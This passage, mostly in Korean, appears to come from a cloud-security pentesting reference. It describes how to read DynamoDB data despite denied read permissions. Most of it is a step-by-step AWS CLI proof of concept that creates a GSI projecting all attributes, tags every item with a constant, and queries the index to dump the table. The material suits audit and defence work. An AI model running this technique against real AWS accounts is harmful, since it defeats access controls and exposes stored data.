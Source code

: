 Permissions: `dynamodb:TransactWriteItems` on the target table (and the underlying item). No read permissions are required.

Potential Impact: 반환된 취소 이유를 통해 트랜잭션 쓰기 권한만으로 테이블의 임의 항목(기본 키로)을 읽을 수 있음.


### `dynamodb:UpdateTable` + `dynamodb:UpdateItem` + `dynamodb:Query` on GSI

저엔트로피 속성에 `ProjectionType=ALL`로 Global Secondary Index (GSI)를 생성하고, 해당 속성 값을 모든 항목에 대해 상수로 설정한 다음 인덱스를 `Query`하여 전체 항목을 가져오면 읽기 제한을 우회할 수 있다. 이 방법은 기본 테이블에 대한 `Query`/`Scan`이 거부되더라도 인덱스 ARN을 쿼리할 수 있으면 작동한다.

- Minimum permissions:
- `dynamodb:UpdateTable` on the target table (`ProjectionType=ALL`로 GSI를 생성하기 위해).
- `dynamodb:UpdateItem` on the target table keys (각 항목에 인덱스된 속성을 설정하기 위해).
- `dynamodb:Query` on the index resource ARN (`arn:aws:dynamodb:<region>:<account-id>:table/<TableName>/index/<IndexName>`).

Steps (PoC in us-east-1):
```bash
# 1) Create table and seed items (without the future GSI attribute)
aws dynamodb create-table --table-name HTXIdx \
--attribute-definitions AttributeName=id,AttributeType=S \
--key-schema AttributeName=id,KeyType=HASH \
--billing-mode PAY_PER_REQUEST --region us-east-1
aws dynamodb wait table-exists --table-name HTXIdx --region us-east-1
for i in 1 2 3 4 5; do \
aws dynamodb put-item --table-name HTXIdx \
--item "{\"id\":{\"S\":\"$i\"},\"secret\":{\"S\":\"sec-$i\"}}" \
--region us-east-1; done

# 2) Add GSI on attribute X with ProjectionType=ALL
aws dynamodb update-table --table-name HTXIdx \
--attribute-definitions AttributeName=X,AttributeType=S \
--global-secondary-index-updates '[{"Create":{"IndexName":"ExfilIndex","KeySchema":[{"AttributeName":"X","KeyType":"HASH"}],"Projection":{"ProjectionType":"ALL"}}}]' \
--region us-east-1
# Wait for index to become ACTIVE
aws dynamodb describe-table --table-name HTXIdx --region us-east-1 \
--query 'Table.GlobalSecondaryIndexes[?IndexName==`ExfilIndex`].IndexStatus'

# 3) Set X="dump" for each item (only UpdateItem on known keys)
for i in 1 2 3 4 5; do \
aws dynamodb update-item --table-name HTXIdx \
--key "{\"id\":{\"S\":\"$i\"}}" \
--update-expression 'SET #x = :v' \
--expression-attribute-names '{"#x":"X"}' \
--expression-attribute-values '{":v":{"S":"dump"}}' \
--region us-east-1; done

# 4) Query the index by the constant value to retrieve full items
aws dynamodb query --table-name HTXIdx --index-name ExfilIndex \
--key-condition-expression '#x = :v' \
--expression-attribute-names '{"#x":"X"}' \
--expression-attribute-values '{":v":{"S":"dump"}}' \
--region us-east-1
```
**Potential Impact:** 기본 테이블 읽기 API가 거부된 경우에도, 모든 속성을 프로젝션하는 새로 생성된 GSI를 쿼리하여 Full table exfiltration이 발생할 수 있음.
